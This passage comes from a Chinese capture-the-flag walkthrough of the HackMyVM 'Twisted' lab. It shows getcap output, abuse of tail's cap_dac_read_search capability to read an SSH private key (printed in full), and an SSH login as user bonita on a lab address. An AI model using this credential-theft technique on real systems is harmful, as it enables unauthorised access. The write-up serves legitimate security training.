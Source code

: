 ```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
/usr/bin/tail = cap_dac_read_search+ep
```

可以看出 `/usr/bin/tail` 文件具有任意文件读取的能力，尝试利用

```plaintext title="tail -n 100 /var/cache/apt/id_rsa"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA8NIseqX1B1YSHTz1A4rFWhjIJffs5vSbAG0Vg2iTa+xshyrmk6zd
FyguFUO7tN2TCJGTomDTXrG/KvWaucGvIAXpgV1lQsQkBV/VNrVC1Ioj/Fx3hUaSCC4PBS
olvmldJg2habNOUGA4EBKlTwfDi+vjDP8d77mF+rvA3EwR3vj37AiXFk5hBEsqr9cWeTr1
vD5282SncYtJb/Zx0eOa6VVFqDfOB7LKZA2QYIbfR7jezOdX+/nlDKX8Xp07wimFuMJpcF
gFnch7ptoxAqe0M0UIEzP+G2ull3m80G5L7Q/3acg14ULnNVs5dTJWPO2Fp7J2qKW+4A5C
tt0G5sIBpQAAA8hHx4cBR8eHAQAAAAdzc2gtcnNhAAABAQDw0ix6pfUHVhIdPPUDisVaGM
gl9+zm9JsAbRWDaJNr7GyHKuaTrN0XKC4VQ7u03ZMIkZOiYNNesb8q9Zq5wa8gBemBXWVC
xCQFX9U2tULUiiP8XHeFRpIILg8FKiW+aV0mDaFps05QYDgQEqVPB8OL6+MM/x3vuYX6u8
DcTBHe+PfsCJcWTmEESyqv1xZ5OvW8PnbzZKdxi0lv9nHR45rpVUWoN84HsspkDZBght9H
uN7M51f7+eUMpfxenTvCKYW4wmlwWAWdyHum2jECp7QzRQgTM/4ba6WXebzQbkvtD/dpyD
XhQuc1Wzl1MlY87YWnsnaopb7gDkK23QbmwgGlAAAAAwEAAQAAAQAuUW5GpLbNE2vmfbvu
U3mDy7JrQxUokrFhUpnJrYp1PoLdOI4ipyPa+VprspxevCM0ibNojtD4rJ1FKPn6cls5gI
mZ3RnFzq3S7sy2egSBlpQ3TJ2cX6dktV8kMigSSHenAwYhq2ALq4X86WksGyUsO1FvRX4/
hmJTiFsew+7IAKE+oQHMzpjMGyoiPXfdaI3sa10L2WfkKs4I4K/v/x2pW78HIktaQPutro
nxD8/fwGxQnseC69E6vdh/5tS8+lDEfYDz4oEy9AP26Hdtho0D6E9VT9T//2vynHLbmSXK
mPbr04h5i9C3h81rh4sAHs9nVAEe3dmZtmZxoZPOJKRhAAAAgFD+g8BhMCovIBrPZlHCu+
bUlbizp9qfXEc8BYZD3frLbVfwuL6dafDVnj7EqpabmrTLFunQG+9/PI6bN+iwloDlugtq
yzvf924Kkhdk+N366FLDt06p2tkcmRljm9kKMS3lBPMu9C4+fgo9LCyphiXrm7UbJHDVSP
UvPg4Fg/nqAAAAgQD9Q83ZcqDIx5c51fdYsMUCByLby7OiIfXukMoYPWCE2yRqa53PgXjh
V2URHPPhqFEa+iB138cSgCU3RxbRK7Qm1S7/P44fnWCaNu920iLed5z2fzvbTytE/h9QpJ
LlecEv2Hx03xyRZBsHFkMf+dMDC0ueU692Gl7YxRw+Lic0PQAAAIEA82v3Ytb97SghV7rz
a0S5t7v8pSSYZAW0OJ3DJqaLtEvxhhomduhF71T0iw0wy8rSH7j2M5PGCtCZUa2/OqQgKF
eERnqQPQSgM0PrATtihXYCTGbWo69NUMcALah0gT5i6nvR1Jr4220InGZEUWHLfvkGTitu
D0POe+rjV4B7EYkAAAAOYm9uaXRhQHR3aXN0ZWQBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

成功得到 `id_rsa` 文件的数据

## SSH 私钥利用

```bash
┌─[✗]─[randark@randark-Parrot]─[~/tmp/HackMyVM-Twisted]
└──╼ $ssh bonita@192.168.56.104 -p 2222 -i id_rsa
Linux twisted 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
bonita@twisted:~$ whoami
bonita
```
